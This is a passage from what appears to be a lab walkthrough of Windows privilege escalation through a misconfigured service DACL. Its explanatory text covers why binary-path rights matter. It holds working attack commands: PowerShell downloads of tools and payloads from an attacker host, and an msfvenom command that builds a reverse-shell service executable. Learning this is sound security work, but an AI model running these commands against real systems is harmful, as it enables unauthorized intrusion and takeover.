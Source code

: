 Using this command in my powershell reverse shell: (New-Object System.Net.WebClient).DownloadFile("http://IPGOESHERE/SharpUp.exe", "C:\Users\user\Downloads\SharpUp.exe")

Then we run SharpUp.exe and look at the results.

The first thing we see is a Modifiable Service:

````
=== Modifiable Services ===

  Name             : daclsvc
  DisplayName      : DACL Service
  Description      : 
  State            : Stopped
  StartMode        : Manual
  PathName         : "C:\Program Files\DACL Service\daclservice.exe"
  ````

 
 This is a great place to start. This shows us that we can modify the binpath of the service. 
 
 Bad access control on a service can lead to trivial privilege escalation. Any time that a standard user has rights to change the binary path (start location) of the service, they can hijack that into privilege escalation. 
 
 The ability to change binary path should be restricted to Administrators only. This is usually a gross oversight on the part of the developers or the sysadmin that provisioned the box. DACL stands for Discretionary Access Control List. Windows defaults to giving everyone access to an object unless a DACL is defined: https://support.microsoft.com/en-us/help/914392/best-practices-and-guidance-for-writers-of-service-discretionary-acces
 
 
So we create an executable to get our new elevated shell:
 
````
msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe-service > daclservicehijack.exe
````

<b>You notice the format is exe-service so that we don't immediately lose our shell on service start.</b>

A note about why this matters:

When Windows makes a call to start a service, it calls the ServiceMain function and expects a return from this call. If you don't specify exe-service, the generated payload won't be able to give you a persistent shell.

You will notice all of my shells are generated as windows/shell_reverse_tcp. These are stageless shells so they can easily be caught through netcat.

More reading about staged vs stageless here: https://buffered.io/posts/staged-vs-stageless-handlers/

Then we transfer over the service file using our download logic again:

````
(New-Object System.Net.WebClient).DownloadFile("http://YOURIPHERE/daclservicehijack.exe", "C:\Users\user\Downloads\daclservicehijack.exe")
````

